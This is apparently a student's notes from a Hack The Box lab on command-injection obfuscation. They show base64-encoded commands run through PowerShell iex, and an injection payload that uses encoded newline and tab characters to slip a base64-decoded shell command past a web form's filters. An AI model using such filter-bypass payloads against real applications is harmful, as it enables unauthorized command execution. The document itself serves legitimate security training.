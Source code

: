 <figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We use the same technique with Windows as well.

```powershell-session
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

```powershell-session
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

_**Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1**_

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>bash&#x3C;&#x3C;&#x3C;$(base64%0a-d&#x3C;&#x3C;&#x3C;ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE)</p></figcaption></figure>

But for some reason it does not execute my command

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption><p>ip=127.0.0.1%0abash&#x3C;&#x3C;&#x3C;$(base64%09-d&#x3C;&#x3C;&#x3C;ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)</p></figcaption></figure>

I forgot the %09
